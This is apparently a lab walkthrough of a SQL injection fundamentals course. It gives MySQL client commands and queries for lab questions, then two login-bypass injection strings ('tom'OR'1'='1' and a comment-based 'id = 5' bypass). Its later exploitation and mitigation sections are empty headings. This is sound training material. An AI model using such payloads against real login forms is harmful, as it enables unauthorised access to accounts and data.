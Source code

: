 # SQL Injection Fundamentals

## Table of Contents&#x20;

## Databases

<figure><img src=".gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

## MySQL&#x20;

### Intro to MySQL

<figure><img src=".gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

**Connect to the database using the MySQL client from the command line. Use the 'show databases;' command to list databases in the DBMS. What is the name of the first database?**

`mysql -u root -h 83.136.251.235 -P 44245 -p`

* PW: password

`show databases;`

<figure><img src=".gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

### SQL Statements

**What is the department number for the 'Development' department?**

`mysql -u root -h 94.237.56.188 -P 32521 -p`

`show databases;`

`use employees;`

`show tables;`

`select * from departments;`

<figure><img src=".gitbook/assets/image (142).png" alt=""><figcaption></figcaption></figure>

### Query Results

**What is the last name of the employee whose first name starts with "Bar" AND who was hired on 1990-01-01?**

* same IP, same DB, lets continue

`select * from employees where first_name like 'Bar%';`

<figure><img src=".gitbook/assets/image (143).png" alt=""><figcaption></figcaption></figure>

### SQL Operators

**In the 'titles' table, what is the number of records WHERE the employee number is greater than 10000 OR their title does NOT contain 'engineer'?**

* same IP, same DB, lets continue

`show columns from titles;`

`select * from titles where emp_no > 10000 or title != 'engineer';`

<figure><img src=".gitbook/assets/image (144).png" alt=""><figcaption></figcaption></figure>

## SQL Injections

<figure><img src=".gitbook/assets/image (145).png" alt=""><figcaption></figcaption></figure>

### Subverting Query logic

**Try to log in as the user 'tom'. What is the flag value shown after you successfully log in?**

UN: `tom'OR'1'='1`

PW: anything...

<figure><img src=".gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

### Using Comments

**Login as the user with the id 5 to get the flag.**

UN: `or id = 5 ) #`

PW: anything...

<figure><img src=".gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

### Union Clause



### Union Injection

## Exploitation

### DB Enumeration

### Reading Files

### Writing Files&#x20;

## Mitigations&#x20;

## Closing it Out

### Skills Assessment - SQL Injection Fundamentals
